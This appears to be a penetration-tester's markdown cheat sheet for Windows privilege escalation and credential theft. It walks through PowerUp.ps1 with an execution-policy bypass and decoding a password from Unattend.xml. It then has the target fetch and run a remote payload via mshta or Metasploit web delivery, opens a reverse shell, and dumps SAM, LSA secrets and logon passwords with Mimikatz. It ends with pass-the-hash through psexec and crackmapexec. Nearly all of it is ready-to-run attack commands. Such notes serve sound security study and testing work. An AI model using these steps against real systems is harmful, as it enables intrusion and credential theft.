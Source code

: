 # PowerUp.ps1

- Download url - https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- `Privesc> powershell -ep bypass` (cd privesc before than run PowerShell execution policy bypass)
	- `Privesc>. .\PowerUp.ps1`
	- `Privesc> Invoke-PrivescAudit` - it will find misconfig files/leftover files like Unattend.xml

	![Invoke-PrivescAudit output](./images/credsdump-01.png)
	
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	$password='QWRtaW5AMTIz'
  	$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	echo $password
  	```
	- runas.exe /user:administrator cmd

- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

**OR**

- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# Mimikatz

- in meterpreter, first, migrate to lsass.exe process.
- run hashdump in meterpreter
- syskey is used to encrypt sam db

- **load kiwi**
	- creds_all
	- lsa_dump_sam
	- lsa_dump_secrets

- alrenatively, create temp directory in C:\Temp and 
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
- **.\mimkatz.exe**
	- privilege::debug - should return Privilege '20' OK - This should be a standard for running mimikatz as mimikatz needs local administrator access
	- lsadump::sam
	- sekurlsa::logonpasswords

- use **windows/smb/psexec** to use hashes from hashdump as SMBPass
- set target command / native upload

- `crackmapexec smb <ip> -u <administrator> -H "ntlm_hash" -x "ipconfig"`
![crackmapexec output](./images/credsdump-02.png)
